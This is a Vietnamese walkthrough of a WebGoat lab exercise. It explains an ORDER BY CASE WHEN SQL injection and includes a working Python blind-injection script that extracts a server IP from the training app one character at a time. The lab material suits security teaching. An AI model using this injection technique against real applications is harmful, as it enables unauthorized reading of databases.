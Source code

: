 ### 12

Để ý mỗi khi bấm sắp xếp ở mỗi cột thì sẽ có request được gửi đi:

![35](images/35.png)


Câu lệnh query `ORDER BY` thông thường sẽ có dạng:

```sql
SELECT * FROM users ORDER BY lastname
```

Còn injection sẽ có dạng:

```sql
SELECT * FROM users ORDER BY (CASE WHEN (<condition>) THEN lastname ELSE firstname)
```

Từ đó mình có thể inject vào param `column`. Code blind sqli:

```python
import requests
from string import digits

url = 'http://127.0.0.1:8080/WebGoat/SqlInjectionMitigations/servers'
cookies = { 'JSESSIONID': 'Sx0ipQQY0EnedQ7Q8UEHI8jYhXcEFH7B04ILcUUZ' }

charset = digits + '.'
key = ''

found = False
while not found:
    found = True
    for c in charset:
        print(c)
        payload = {
            'column': f"(CASE WHEN (SELECT SUBSTR(ip,{len(key) + 1},1) FROM servers WHERE hostname='webgoat-prd')='{c}' THEN id ELSE ip END)"
        }
        r = requests.get(url, params=payload, cookies=cookies)
        if r.json()[0]['id'] == '1':
            key += c
            found = False
            print('found:', key)
            break

print('found:', key)
```
